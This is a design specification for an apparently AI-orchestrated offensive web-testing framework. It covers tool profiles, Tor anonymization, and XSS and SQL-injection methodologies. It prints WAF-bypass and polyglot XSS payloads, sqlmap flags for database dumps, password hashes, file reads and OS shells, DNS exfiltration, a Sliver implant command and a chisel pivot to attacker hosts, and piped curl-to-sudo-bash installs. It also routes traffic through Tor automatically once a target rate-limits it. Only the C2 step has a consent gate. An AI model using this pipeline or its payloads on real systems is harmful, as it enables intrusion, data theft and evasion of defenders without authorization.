        name="whatweb",
        repo="github.com/urbanadventurer/WhatWeb",
        install_cmd="gem install whatweb",
        phase="recon",
        usage="whatweb -a 3 --log-json=output.json {target}",
        output_format="json",
        parse_rule=ParseRule("whatweb", "json", None, None, "target", "plugins", []),
        advantage="Identifies CMS, server version, frameworks, WAF hints; aggression 1-4",
        dependencies=["ruby", "rubygems"],
        aggression_levels={1: "stealthy", 2: "default", 3: "aggressive", 4: "heavy"},
        key_fields=["CMS", "server_version", "frameworks", "WAF_hints"],
    ),
    "arjun": ToolProfile(
        name="arjun",
        repo="github.com/s0md3v/Arjun",
        install_cmd="pip install arjun",
        phase="enumeration",
        usage="arjun -u https://{target}/endpoint -m GET,POST --stable -oJ params.json",
        output_format="json",
        parse_rule=ParseRule("arjun", "json", "params", None, None, None, []),
        advantage="Discovers hidden HTTP parameters via heuristic and wordlist-based fuzzing",
        dependencies=["python>=3.6", "requests", "httpx"],
        venv_packages=["arjun"],
    ),
    "sqlmap": ToolProfile(
        name="sqlmap",
        repo="github.com/sqlmapproject/sqlmap",
        install_cmd="apt install sqlmap",
        phase="exploitation",
        usage="sqlmap -u {url} --level=5 --risk=3 --random-agent --delay=1 --timeout=30 --batch",
        output_format="text",
        parse_rule=ParseRule("sqlmap", "text", None, None, None, None,
                             [r"Parameter: (.+?) \(", r"Type: (.+)", r"Title: (.+)"]),
        advantage="Comprehensive SQLi detection and exploitation; supports all 7 techniques",
        dependencies=["python>=3"],
        techniques={
            "B": "Boolean-based blind",
            "E": "Error-based",
            "U": "Union query-based",
            "S": "Stacked queries",
            "T": "Time-based blind",
            "I": "Inline queries",
            "Q": "Out-of-band (DNS/HTTP)",
        },
        advanced_flags=["--level=5", "--risk=3", "--random-agent", "--delay=1", "--timeout=30"],
        post_exploit_flags=["--os-shell", "--os-cmd", "--file-read", "--file-write",
                            "--is-dba", "--privileges", "--dns-domain"],
    ),
    "commix": ToolProfile(
        name="commix",
        repo="github.com/commixproject/commix",
        install_cmd="git clone https://github.com/commixproject/commix.git /opt/commix",
        phase="exploitation",
        usage="python3 /opt/commix/commix.py --url='https://{target}/page?param=val' --level=3",
        output_format="text",
        parse_rule=ParseRule("commix", "text", None, None, None, None,
                             [r"Vulnerable parameter: (.+)", r"Technique: (.+)"]),
        advantage="Automated command injection detection; classic, eval-based, time-based, file-based",
        dependencies=["python3", "requests"],
        venv_packages=["requests", "urllib3"],
        techniques=["classic", "eval-based", "time-based", "file-based"],
    ),
    "jsvulns": ToolProfile(
        name="jsvulns",
        repo="github.com/dxa4481/jsvulns",
        install_cmd="git clone https://github.com/dxa4481/jsvulns.git /opt/jsvulns && pip install -r /opt/jsvulns/requirements.txt",
        phase="url_discovery",
        usage="python3 /opt/jsvulns/jsvulns.py -u https://{target}",
        output_format="text",
        parse_rule=ParseRule("jsvulns", "text", None, None, None, None,
                             [r"SECRET:\s*(.+)", r"API_KEY:\s*(.+)", r"ENDPOINT:\s*(.+)"]),
        advantage="Finds hardcoded API keys, secrets, vulnerable JS patterns, exposed endpoints",
        dependencies=["python3", "requests", "beautifulsoup4", "lxml"],
        venv_packages=["requests", "beautifulsoup4", "lxml"],
        complements="jsluice",
        findings=["hardcoded_api_keys", "secrets", "vulnerable_js_patterns", "exposed_endpoints"],
    ),
    "chisel": ToolProfile(
        name="chisel",
        repo="github.com/jpillora/chisel",
        install_cmd="go install github.com/jpillora/chisel@latest",
        phase="post_exploit",
        usage_server="chisel server --port 8080 --reverse",
        usage_client="chisel client attacker:8080 R:socks",
        output_format="text",
        parse_rule=None,
        advantage="HTTP tunnel over SSH for firewall bypass; SOCKS5 proxy for internal network pivoting",
        dependencies=["go>=1.16"],
        purpose="tunneling_pivoting",
        ai_trigger="when post-exploit phase detects internal network IPs",
    ),
    "sliver": ToolProfile(
        name="sliver",
        repo="github.com/BishopFox/sliver",
        install_cmd="curl https://sliver.sh/install | sudo bash",
        phase="exploitation",
        usage_server="sliver-server daemon",
        usage_client="sliver",
        usage_implant="generate --mtls attacker.com --os linux --arch amd64 --save /tmp/implant",
        output_format="interactive",
        parse_rule=None,
        advantage="Full C2 framework; mTLS, WireGuard, HTTP/S, DNS transports",
        dependencies=["go_build_tools", "mingw-w64"],
        requires_explicit_consent=True,
        consent_flag="--mode=exploit",
        ai_trigger="only when post-exploit phase has confirmed shell access AND --mode=exploit is set",
        install_spec_method="script",
        install_spec_url="https://sliver.sh/install",
    ),
    "proxychains_tor": ToolProfile(
        name="proxychains4",
        repo="apt",
        install_cmd="apt install proxychains4 tor",
        phase="cross_cutting",
        usage="proxychains4 -q {tool_command}",
        config_file="/etc/proxychains4.conf",
        config_entry="socks5 127.0.0.1 9050",
        output_format="passthrough",
        parse_rule=None,
        advantage="Anonymization layer; routes all tool traffic through Tor SOCKS5",
        dependencies=["tor", "proxychains4"],
        ai_trigger="when target blocks IP after N requests or has aggressive rate limiting",
    ),
    "reconftw": ToolProfile(
        name="reconftw",
        repo="github.com/six2dez/reconftw",
        install_cmd="git clone https://github.com/six2dez/reconftw.git /opt/reconftw && cd /opt/reconftw && ./install.sh",
        phase="recon",
        usage_recon="./reconftw.sh -d {target} -r",
        usage_full="./reconftw.sh -d {target} -a",
        output_format="directory",
        parse_rule=None,
        advantage="Orchestrates 80+ tools; comprehensive recon fallback when individual tools fail",
        dependencies=["bash", "git", "go", "python3", "ruby"],
        install_note="install.sh handles all sub-dependencies; run in subprocess",
        output_parsing="reads reconftw output/ directory structure for subdomains, URLs, vulns",
        position_in_chain="last — used as fallback when all other recon tools fail",
    ),
}
```

### Component: TorManager

**Purpose**: Manages the Tor service lifecycle and wraps all tool subprocess calls with `proxychains4 -q` when stealth mode is active.

**Interface**:

```python
class TorManager:
    TOR_SOCKS_PORT = 9050
    TOR_CONTROL_PORT = 9051
    TOR_CHECK_URL = "https://check.torproject.org/api/ip"

    def start(self) -> bool:
        """
        Start tor service via systemctl or direct invocation.
        Returns True if SOCKS5 on port 9050 is ready within 30s.
        """

    def stop(self) -> None:
        """Stop tor service."""

    def verify_connectivity(self) -> bool:
        """
        GET https://check.torproject.org/api/ip
        Returns True if response JSON contains IsTor=true.
        """

    def get_new_identity(self) -> None:
        """
        Send NEWNYM signal to tor control port (9051) for a new circuit.
        Requires HashedControlPassword or CookieAuthentication in torrc.
        """

    def wrap_command(self, cmd: list[str]) -> list[str]:
        """Prepend ['proxychains4', '-q'] to cmd. Returns new list."""
```

**Preconditions:**
- `tor` and `proxychains4` are installed (apt packages)
- `/etc/proxychains4.conf` contains `socks5 127.0.0.1 9050`
- Port 9050 is not in use by another process

**Postconditions:**
- `start()` returns True iff tor SOCKS5 is accepting connections on 9050
- `verify_connectivity()` returns True iff exit IP is a Tor exit node
- `wrap_command(cmd)` always returns a new list; never mutates input
- `get_new_identity()` silently fails if control port is unavailable

### TorManager Algorithm

```pascal
ALGORITHM TorManager.start()
OUTPUT: is_ready (boolean)

BEGIN
  RUN systemctl start tor  // or: tor --RunAsDaemon 1

  deadline <- now() + 30 seconds
  WHILE now() < deadline DO
    TRY
      sock <- connect("127.0.0.1", 9050, timeout=1)
      sock.close()
      RETURN true
    CATCH ConnectionRefusedError
      sleep(1)
    END TRY
  END WHILE

  RETURN false
END

ALGORITHM TorManager.verify_connectivity()
OUTPUT: is_tor (boolean)

BEGIN
  TRY
    response <- http_get(TOR_CHECK_URL, proxies={"socks5": "127.0.0.1:9050"}, timeout=10)
    data     <- json_parse(response.body)
    RETURN data["IsTor"] = true
  CATCH ANY
    RETURN false
  END TRY
END

ALGORITHM TorManager.get_new_identity()
BEGIN
  TRY
    ctrl <- connect("127.0.0.1", TOR_CONTROL_PORT)
    ctrl.send("AUTHENTICATE\r\n")
    ctrl.send("SIGNAL NEWNYM\r\n")
    ctrl.close()
  CATCH ANY
    // silently ignore — new identity is best-effort
  END TRY
END
```

### Integration with Orchestrator (Stealth Mode)

```pascal
ALGORITHM run_full_scan_stealth(config)
BEGIN
  IF config.mode = "stealth" THEN
    tor_manager <- TorManager()
    ready <- tor_manager.start()

    IF NOT ready THEN
      logger.warning("Tor failed to start — stealth mode degraded (no anonymization)")
    ELSE
      ready <- tor_manager.verify_connectivity()
      IF NOT ready THEN
        logger.warning("Tor started but connectivity check failed")
      END IF
    END IF

    // Inject wrap_command into all tool subprocess calls
    tool_manager.set_command_wrapper(tor_manager.wrap_command)
  END IF

  // ... rest of scan proceeds normally
  // After N failed requests (rate-limit detection):
  tor_manager.get_new_identity()
  sleep(config.jitter_ms)
END
```

### Component: DependencyResolver

**Purpose**: Installs all tools in the correct dependency order, ensuring system packages are present before Go/Ruby/pip tools, and that ReconFTW (which installs its own sub-dependencies) runs last.

**Interface**:

```python
class DependencyResolver:
    INSTALL_ORDER = [
        "system_packages",   # apt batch install — must be first
        "go_tools",          # go install ...@latest — requires Go from system_packages
        "ruby_tools",        # gem install — requires Ruby from system_packages
        "git_tools",         # git clone + optional setup scripts
        "pip_tools",         # per-venv pip install via ToolVenvManager
        "reconftw",          # last — its install.sh installs many of the above
    ]

    SYSTEM_PACKAGES = [
        "git", "curl", "wget", "golang", "ruby", "python3", "python3-pip",
        "tor", "proxychains4", "nmap", "nikto", "sqlmap", "amass", "whatweb",
        "mingw-w64",
    ]

    def resolve(self, tool_names: list[str]) -> list[InstallResult]:
        """
        Install tools in INSTALL_ORDER sequence.
        Returns list of InstallResult for all tools.
        """

    def install_system_packages(self) -> InstallResult:
        """Batch apt install of SYSTEM_PACKAGES in a single subprocess call."""

    def install_go_tools(self, tools: list[str]) -> list[InstallResult]:
        """Run go install for each Go-based tool after verifying Go is on PATH."""

    def install_ruby_tools(self, tools: list[str]) -> list[InstallResult]:
        """Run gem install for each Ruby-based tool after verifying Ruby is on PATH."""

    def install_git_tools(self, tools: list[str]) -> list[InstallResult]:
        """Clone repos and run any post-clone setup (e.g. pip install -r requirements.txt)."""

    def install_pip_tools(self, tools: list[str]) -> list[InstallResult]:
        """Install each pip tool into its own venv via ToolVenvManager."""

    def install_reconftw(self) -> InstallResult:
        """Clone reconftw and run its install.sh in a subprocess (last step)."""
```

**Preconditions:**
- Running as root or with sudo privileges (for apt and system-level installs)
- Internet access available

**Postconditions:**
- All tools installed in correct dependency order
- Each step is idempotent (re-running is safe)
- reconftw install.sh runs last to avoid conflicts with manually installed tools

### DependencyResolver Algorithm

```pascal
ALGORITHM DependencyResolver.resolve(tool_names)
INPUT: tool_names (list[string])
OUTPUT: results (list[InstallResult])

BEGIN
  results <- []

  // Step 1: System packages (apt batch — single call for speed)
  sys_result <- install_system_packages()
  results.append(sys_result)

  IF sys_result.status = "failed" THEN
    logger.error("System package install failed — aborting dependency resolution")
    RETURN results
  END IF

  // Verify Go is available before Go tools
  ASSERT shutil.which("go") IS NOT NULL

  // Step 2: Go tools
  go_tools <- [t FOR t IN tool_names IF TOOL_INSTALL_SPECS[t].method = "go"]
  FOR each tool IN go_tools DO
    results.append(install_go_tool(tool))
  END FOR

  // Step 3: Ruby tools
  ASSERT shutil.which("ruby") IS NOT NULL
  ruby_tools <- [t FOR t IN tool_names IF TOOL_INSTALL_SPECS[t].method = "gem"]
  FOR each tool IN ruby_tools DO
    results.append(install_ruby_tool(tool))
  END FOR

  // Step 4: Git-cloned tools
  git_tools <- [t FOR t IN tool_names IF TOOL_INSTALL_SPECS[t].method = "git"
                                      AND t != "reconftw"]
  FOR each tool IN git_tools DO
    results.append(install_git_tool(tool))
    // Post-clone: install requirements.txt if present
    req_file <- TOOL_INSTALL_SPECS[tool].git_dest + "/requirements.txt"
    IF req_file EXISTS THEN
      venv_manager.ensure_venv(tool, [])
      RUN [venv_python, "-m", "pip", "install", "-r", req_file]
    END IF
  END FOR

  // Step 5: Pip tools (per-venv)
  pip_tools <- [t FOR t IN tool_names IF TOOL_INSTALL_SPECS[t].method = "pip"]
  FOR each tool IN pip_tools DO
    pkgs <- TOOL_VENV_PACKAGES.get(tool, [TOOL_INSTALL_SPECS[tool].package])
    venv_manager.ensure_venv(tool, pkgs)
    results.append(InstallResult(tool=tool, status="installed"))
  END FOR

  // Step 6: ReconFTW last
  IF "reconftw" IN tool_names THEN
    results.append(install_reconftw())
  END IF

  RETURN results
END

ALGORITHM DependencyResolver.install_reconftw()
OUTPUT: InstallResult

BEGIN
  dest <- "/opt/reconftw"

  IF NOT Path(dest).exists() THEN
    RUN ["git", "clone", "https://github.com/six2dez/reconftw.git", dest]
  END IF

  install_script <- dest + "/install.sh"
  ASSERT Path(install_script).exists()

  // Run install.sh in a subprocess with a 30-minute timeout
  RUN ["bash", install_script], cwd=dest, timeout=1800

  RETURN InstallResult(tool="reconftw", status="installed")
END
```

### Component: XSSMethodology

**Purpose**: Orchestrates a complete XSS attack methodology covering all XSS types, CSP bypass, WAF bypass, and polyglot payloads.

**Interface**:

```python
class XSSMethodology:
    def run(self, target: str, urls: list[str], context: ScanContext) -> list[Vulnerability]:
        """Execute full XSS methodology against collected URLs. Returns XSS findings."""

    def reflected_xss(self, urls: list[str], waf: WafResult) -> list[Vulnerability]:
        """Parameter fuzzing with dalfox + xsstrike."""

    def stored_xss(self, forms: list[str], waf: WafResult) -> list[Vulnerability]:
        """Inject into form fields, comment fields, profile fields."""

    def dom_xss(self, js_files: list[str]) -> list[Vulnerability]:
        """JS source/sink analysis via jsvulns + jsluice."""

    def blind_xss(self, urls: list[str]) -> list[Vulnerability]:
        """XSS Hunter payloads via nuclei blind-xss templates."""

    def csp_bypass(self, target: str) -> list[Vulnerability]:
        """Test CSP bypass: script-src bypass, nonce prediction, JSONP abuse."""
```

### XSS Methodology Algorithm

```pascal
ALGORITHM XSSMethodology.run(target, urls, context)
INPUT: target (string), urls (list[string]), context (ScanContext)
OUTPUT: findings (list[Vulnerability])

BEGIN
  findings <- []
  waf      <- context.waf_result OR WafDetector.detect(target)

  // 1. Reflected XSS — parameter fuzzing
  FOR each url IN urls DO
    // dalfox: fast, WAF-aware
    dalfox_cmd <- ["dalfox", "url", url, "--silence", "--format", "json"]
    IF waf.detected THEN
      bypass_headers <- WafBypassStrategy.get_bypass_headers(waf.vendor)
      FOR each (h, v) IN bypass_headers DO
        dalfox_cmd.extend(["--header", h + ": " + v])
      END FOR
    END IF
    dalfox_result <- run_tool(dalfox_cmd)
    findings.extend(parse_dalfox(dalfox_result))

    // xsstrike: polyglot + context-aware
    xsstrike_cmd <- ["python3", "/opt/xsstrike/xsstrike.py", "-u", url, "--json"]
    xsstrike_result <- run_tool(xsstrike_cmd)
    findings.extend(parse_xsstrike(xsstrike_result))
  END FOR

  // 2. Stored XSS — form injection
  forms <- extract_forms(urls)
  FOR each form IN forms DO
    FOR each field IN [form.text_inputs, form.comment_fields, form.profile_fields] DO
      payload <- select_stored_xss_payload(field.context, waf.vendor)
      inject_and_verify(form.action, field.name, payload, findings)
    END FOR
  END FOR

  // 3. DOM XSS — JS source/sink analysis
  js_files <- collect_js_files(urls)
  FOR each js_file IN js_files DO
    // jsluice: source/sink mapping
    jsluice_result <- run_tool(["jsluice", "urls", js_file])
    // jsvulns: secret + vulnerable pattern detection
    jsvulns_result <- run_tool(["python3", "/opt/jsvulns/jsvulns.py", "-u", js_file])
    findings.extend(parse_dom_xss(jsluice_result, jsvulns_result))
  END FOR

  // 4. Blind XSS — nuclei templates
  nuclei_blind_cmd <- ["nuclei", "-l", urls_file, "-t", "blind-xss/", "-json"]
  nuclei_result    <- run_tool(nuclei_blind_cmd)
  findings.extend(parse_nuclei(nuclei_result))

  // 5. CSP bypass
  csp_findings <- test_csp_bypass(target, waf)
  findings.extend(csp_findings)

  RETURN deduplicate_findings(findings)
END

ALGORITHM test_csp_bypass(target, waf)
INPUT: target (string), waf (WafResult)
OUTPUT: findings (list[Vulnerability])

BEGIN
  findings <- []
  csp_header <- fetch_csp_header(target)

  IF csp_header IS NULL THEN
    RETURN []  // No CSP — XSS unrestricted, already covered above
  END IF

  // Test 1: script-src bypass via JSONP endpoint
  jsonp_endpoints <- find_jsonp_endpoints(target)
  FOR each endpoint IN jsonp_endpoints DO
    IF csp_allows_domain(csp_header, endpoint.domain) THEN
      findings.append(Vulnerability(
        name="CSP Bypass via JSONP",
        severity="high",
        evidence="JSONP endpoint " + endpoint.url + " allowed by CSP script-src"
      ))
    END IF
  END FOR

  // Test 2: nonce prediction (static nonce)
  nonces <- collect_nonces(target, sample_size=10)
  IF all_nonces_equal(nonces) THEN
    findings.append(Vulnerability(name="Static CSP Nonce", severity="high"))
  END IF

  // Test 3: unsafe-inline / unsafe-eval present
  IF "unsafe-inline" IN csp_header OR "unsafe-eval" IN csp_header THEN
    findings.append(Vulnerability(name="CSP unsafe-inline/eval", severity="medium"))
  END IF

  RETURN findings
END
```

### WAF Bypass for XSS

```python
XSS_WAF_BYPASS_CHAINS: dict[str, list[str]] = {
    # Encoding chains: HTML entity → URL encode → JS unicode
    "cloudflare": [
        "&lt;script&gt;alert(1)&lt;/script&gt;",           # HTML entity
        "%3Cscript%3Ealert(1)%3C%2Fscript%3E",             # URL encode
        "\\u003cscript\\u003ealert(1)\\u003c/script\\u003e", # JS unicode
    ],
    "akamai": [
        "<scr\x00ipt>alert(1)</scr\x00ipt>",               # null byte
        "",  # HTML entity in attr
    ],
    "default": [
        "<svg/onload=alert(1)>",
        "'\">",
        "javascript:alert(1)",
    ],
}

# Polyglot payload — triggers in HTML, JS string, attribute, and URL contexts
XSS_POLYGLOT = (
    "jaVasCript:/*-/*`/*\\`/*'/*\"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//"
    "</stYle/</titLe/</teXtarEa/</scRipt/--!>\\x3csVg/<sVg/oNloAd=alert()//"
    "\\x3e"
)
```

### Component: SQLiMethodology

**Purpose**: Orchestrates a complete SQL injection attack methodology covering all 7 techniques, database enumeration, privilege escalation, OS interaction, out-of-band exfiltration, second-order SQLi, and WAF bypass.

**Interface**:

```python
class SQLiMethodology:
    def run(self, target: str, params: list[str], context: ScanContext) -> list[Vulnerability]:
        """Execute full SQLi methodology. Returns SQLi findings."""

    def detect(self, url: str, param: str) -> SQLiDetectionResult:
        """Fingerprint injection type: error-based, boolean-based, time-based."""

    def exploit(self, url: str, param: str, technique: str,
                waf: WafResult) -> SQLiExploitResult:
        """Run sqlmap with selected technique and WAF bypass tampers."""

    def enumerate_db(self, url: str, param: str) -> DBEnumResult:
        """Run --dbs → --tables → --columns → --dump pipeline."""

    def escalate_privileges(self, url: str, param: str) -> PrivEscResult:
        """Check --is-dba, --privileges; attempt --os-shell if DBA."""

    def out_of_band(self, url: str, param: str, dns_domain: str) -> list[Vulnerability]:
        """DNS exfiltration via --dns-domain (out-of-band technique Q)."""

    def second_order(self, inject_url: str, trigger_url: str,
                     param: str) -> list[Vulnerability]:
        """Second-order SQLi via --second-url for stored injection."""
```

### SQLi Methodology Algorithm

```pascal
ALGORITHM SQLiMethodology.run(target, params, context)
INPUT: target (string), params (list[string]), context (ScanContext)
OUTPUT: findings (list[Vulnerability])

BEGIN
  findings <- []
  waf      <- context.waf_result OR WafDetector.detect(target)
  tampers  <- WafBypassStrategy.get_sqlmap_tampers(waf.vendor)

  FOR each param IN params DO
    url <- build_test_url(target, param)

    // Phase 1: Detection — identify injection type
    detection <- detect_sqli(url, param, tampers)

    IF NOT detection.vulnerable THEN
      CONTINUE
    END IF

    findings.append(Vulnerability(
      name="SQL Injection",
      severity="critical",
      evidence=detection.evidence,
      tool_sources=["sqlmap"],
    ))

    // Phase 2: Technique selection
    IF detection.technique IS NOT NULL THEN
      technique_flag <- "--technique=" + detection.technique
    ELSE
      technique_flag <- ""  // sqlmap auto-selects
    END IF

    // Phase 3: Database enumeration
    db_result <- enumerate_db(url, param, tampers, technique_flag)
    findings.extend(db_result.findings)

    // Phase 4: Privilege check
    priv_result <- escalate_privileges(url, param, tampers)
    IF priv_result.is_dba THEN
      // Attempt OS shell
      os_result <- run_sqlmap(url, param, tampers + ["--os-shell"])
      findings.extend(os_result.findings)
    END IF

    // Phase 5: Out-of-band (if DNS domain configured)
    IF context.dns_domain IS NOT NULL THEN
      oob_findings <- out_of_band(url, param, context.dns_domain)
      findings.extend(oob_findings)
    END IF

    // Phase 6: Second-order check (if stored injection suspected)
    IF detection.type = "stored" THEN
      second_findings <- second_order(url, context.trigger_url, param)
      findings.extend(second_findings)
    END IF

    // Phase 7: Ghauri fallback (faster for certain types, better WAF bypass)
    IF findings IS empty OR detection.confidence < 0.7 THEN
      ghauri_result <- run_ghauri(url, param, waf.vendor)
      findings.extend(ghauri_result.findings)
    END IF
  END FOR

  RETURN deduplicate_findings(findings)
END
```

### SQLi Technique Reference

```python
SQLI_TECHNIQUES: dict[str, SQLiTechniqueSpec] = {
    "B": SQLiTechniqueSpec(
        flag="--technique=B",
        name="Boolean-based blind",
        detection="response differs for true/false conditions",
        speed="slow",
        reliability="high",
    ),
    "E": SQLiTechniqueSpec(
        flag="--technique=E",
        name="Error-based",
        detection="database error messages in response",
        speed="fast",
        reliability="high",
    ),
    "U": SQLiTechniqueSpec(
        flag="--technique=U",
        name="Union query-based",
        detection="UNION SELECT returns data in response",
        speed="fast",
        reliability="high",
    ),
    "S": SQLiTechniqueSpec(
        flag="--technique=S",
        name="Stacked queries",
        detection="multiple statements separated by semicolon",
        speed="medium",
        reliability="medium",
    ),
    "T": SQLiTechniqueSpec(
        flag="--technique=T",
        name="Time-based blind",
        detection="response delay on SLEEP/WAITFOR",
        speed="very_slow",
        reliability="medium",
    ),
    "I": SQLiTechniqueSpec(
        flag="--technique=I",
        name="Inline queries",
        detection="subquery in SELECT returns data",
        speed="fast",
        reliability="medium",
    ),
    "Q": SQLiTechniqueSpec(
        flag="--technique=Q",
        name="Out-of-band",
        detection="DNS/HTTP callback to attacker-controlled server",
        speed="fast",
        reliability="high",
        requires="dns_domain or http_callback_server",
    ),
}

SQLI_ADVANCED_FLAGS = [
    "--level=5",        # test all parameters including cookies, headers
    "--risk=3",         # include heavy time-based and OR-based tests
    "--random-agent",   # rotate User-Agent
    "--delay=1",        # 1s delay between requests
    "--timeout=30",     # 30s per request timeout
    "--batch",          # non-interactive (auto-answer prompts)
    "--threads=3",      # parallel requests (safe default)
]

SQLI_DB_ENUM_PIPELINE = [
    "--dbs",                    # enumerate databases
    "--tables -D {db}",         # enumerate tables in target DB
    "--columns -D {db} -T {tbl}", # enumerate columns
    "--dump -D {db} -T {tbl} -C {cols} --start=1 --stop=100",  # dump sample
]

SQLI_OS_FLAGS = [
    "--os-shell",       # interactive OS shell (requires stacked queries or file write)
    "--os-cmd={cmd}",   # single OS command execution
    "--file-read={path}",  # read file from server filesystem
    "--file-write={local} --file-dest={remote}",  # write file to server
]

SQLI_PRIV_FLAGS = [
    "--is-dba",         # check if current user is DBA
    "--privileges",     # list all user privileges
    "--users",          # enumerate database users
    "--passwords",      # dump password hashes
]
```

### Extended AI Integration (PentestKnowledgeBase additions)

```python
# Additions to PentestKnowledgeBase for Upgrade 8 tools

AI_TOOL_PIPELINE_RULES: list[AIPipelineRule] = [

    AIPipelineRule(
        trigger_tool="gauplus",
        trigger_condition="url_discovery phase complete",
        action="feed gauplus output into URL deduplication pipeline → paramspider → arjun",
        description="GauPlus URLs feed parameter discovery: deduplicate → paramspider for param extraction → arjun for hidden param fuzzing",
    ),

    AIPipelineRule(
        trigger_tool="whatweb",
        trigger_condition="whatweb detects CMS or framework",
        action="select nuclei templates matching detected technology",
        description=(
            "WhatWeb output → technology stack → nuclei template selection. "
            "If WordPress detected → run wpscan + nuclei:wordpress templates. "
            "If Drupal → nuclei:drupal. If Apache → nuclei:apache. "
            "If WAF hints detected → activate WafBypassStrategy."
        ),
        template_map={
            "WordPress":  ["wpscan", "nuclei:wordpress"],
            "Drupal":     ["nuclei:drupal"],
            "Joomla":     ["nuclei:joomla"],
            "Apache":     ["nuclei:apache"],
            "Nginx":      ["nuclei:nginx"],
            "IIS":        ["nuclei:iis"],
            "PHP":        ["nuclei:php"],
            "jQuery":     ["nuclei:jquery"],
        },
    ),

    AIPipelineRule(
        trigger_tool="jsvulns",
        trigger_condition="jsvulns finds API keys or secrets",
        action="validate keys → report as critical",
        description=(
            "JSVulns output → if API keys found → attempt key validation "
            "(test against known API endpoints) → if valid → report as critical severity. "
            "Run jsluice in parallel for maximum JS coverage."
        ),
        severity_override="critical",
    ),

    AIPipelineRule(
        trigger_tool="chisel",
        trigger_condition="post-exploit phase finds internal IPs in scan results",
        action="suggest chisel pivot setup",
        description=(
            "If post-exploit tools (linpeas, crackmapexec) discover internal network IPs "
            "not reachable from attacker → suggest chisel server/client setup for SOCKS5 pivot. "
            "Provide exact commands: server on attacker, client on compromised host."
        ),
    ),

    AIPipelineRule(
        trigger_tool="sliver",
        trigger_condition="confirmed RCE AND --mode=exploit flag set",
        action="suggest sliver implant generation",
        description=(
            "Sliver C2 is suggested ONLY when: (1) post-exploit phase has confirmed RCE "
            "via commix or sqlmap --os-shell, AND (2) user explicitly passed --mode=exploit. "
            "Present user confirmation prompt before any C2 operation. "
            "Suggest mTLS transport as default; DNS as fallback for restrictive firewalls."
        ),
        requires_explicit_consent=True,
        consent_prompt="WARNING: C2 implant generation requires explicit authorization. Proceed? (yes/no)",
    ),

    AIPipelineRule(
        trigger_tool="reconftw",
        trigger_condition="all individual recon tools fail OR recon phase is degraded",
        action="run reconftw as meta-tool fallback",
        description=(
            "ReconFTW is the last-resort comprehensive fallback. "
            "When FallbackChain.degraded=True for recon phase → invoke reconftw. "
            "Parse reconftw output/ directory: "
            "  output/subdomains/ → feed into url_discovery phase, "
            "  output/urls/ → feed into enumeration phase, "
            "  output/vulns/ → feed into vuln_scan phase."
        ),
        output_parsing={
            "subdomains": "output/subdomains/subdomains.txt",
            "urls":       "output/urls/urls.txt",
            "vulns":      "output/vulns/nuclei_output.txt",
            "js_files":   "output/js/",
            "params":     "output/params/",
        },
    ),

    AIPipelineRule(
        trigger_tool="proxychains4",
        trigger_condition="target blocks IP after N requests OR aggressive rate limiting detected",
        action="auto-switch to stealth+tor mode",
        description=(
            "If HTTP 429 or connection resets exceed threshold (default: 5 in 60s) → "
            "activate TorManager → wrap all subsequent tool commands with proxychains4 -q → "
            "call TorManager.get_new_identity() between phases. "
            "Recommend stealth mode to user via CLI warning."
        ),
        rate_limit_threshold=5,
        rate_limit_window_s=60,
    ),
]
```

### Updated Tool Parse Rules (Upgrade 8 additions)

```python
# Additions to TOOL_PARSE_RULES from Upgrade 5

TOOL_PARSE_RULES_UPGRADE8: dict[str, ParseRule] = {
    "gauplus":  ParseRule("gauplus",  "text", None,     None,       None,    None,
                          [r"^(https?://[^\s]+)$"]),
    "whatweb":  ParseRule("whatweb",  "json", None,     None,       "target", "plugins", []),
    "arjun":    ParseRule("arjun",    "json", "params", None,       None,    None,       []),
    "commix":   ParseRule("commix",   "text", None,     None,       None,    None,
                          [r"Vulnerable parameter: (.+)", r"Technique: (.+)"]),
    "jsvulns":  ParseRule("jsvulns",  "text", None,     None,       None,    None,
                          [r"SECRET:\s*(.+)", r"API_KEY:\s*(.+)", r"ENDPOINT:\s*(.+)"]),
    "sqlmap":   ParseRule("sqlmap",   "text", None,     None,       None,    None,
                          [r"Parameter: (.+?) \(", r"Type: (.+)", r"Title: (.+)"]),
    "reconftw": ParseRule("reconftw", "directory", None, None,      None,    None,       []),
}
```

### Sliver C2 Consent Gate Algorithm

```pascal
ALGORITHM SliverC2Gate.request_consent(context)
INPUT: context (ScanContext)
OUTPUT: approved (boolean)

BEGIN
  IF context.mode != "exploit" THEN
    logger.info("Sliver C2 skipped — requires --mode=exploit flag")
    RETURN false
  END IF

  IF NOT context.confirmed_rce THEN
    logger.info("Sliver C2 skipped — no confirmed RCE in current session")
    RETURN false
  END IF

  // Interactive consent prompt
  print("=" * 60)
  print("WARNING: C2 implant generation is an active exploitation step.")
  print("This action requires explicit authorization from the target owner.")
  print("Proceeding without authorization may be illegal.")
  print("=" * 60)
  answer <- input("Generate Sliver C2 implant? Type 'yes' to confirm: ").strip()

  IF answer != "yes" THEN
    logger.info("Sliver C2 declined by user")
    RETURN false
  END IF

  logger.warning("[AUDIT] Sliver C2 implant generation authorized by user")
  RETURN true
END
```

### New Dependencies (Upgrade 8 additions)

System packages (added to `DependencyResolver.SYSTEM_PACKAGES`):
```
tor, proxychains4, ruby, rubygems, golang, mingw-w64
```

Go tools (installed via `go install`):
```
gauplus    → github.com/bp0lr/gauplus@latest
chisel     → github.com/jpillora/chisel@latest
```

Ruby tools (installed via `gem install`):
```
whatweb
```

Apt tools:
```
sqlmap, tor, proxychains4
```

Git-cloned tools:
```
commix   → /opt/commix   (+ pip install requests urllib3 in venv)
jsvulns  → /opt/jsvulns  (+ pip install -r requirements.txt in venv)
reconftw → /opt/reconftw (+ ./install.sh — last step)
```

Pip tools (per-venv):
```
arjun
```

Script-based (explicit consent required):
```
sliver → curl https://sliver.sh/install | sudo bash
```

ProxyChains config (`/etc/proxychains4.conf`):
```
strict_chain
proxy_dns
[ProxyList]
socks5 127.0.0.1 9050
```
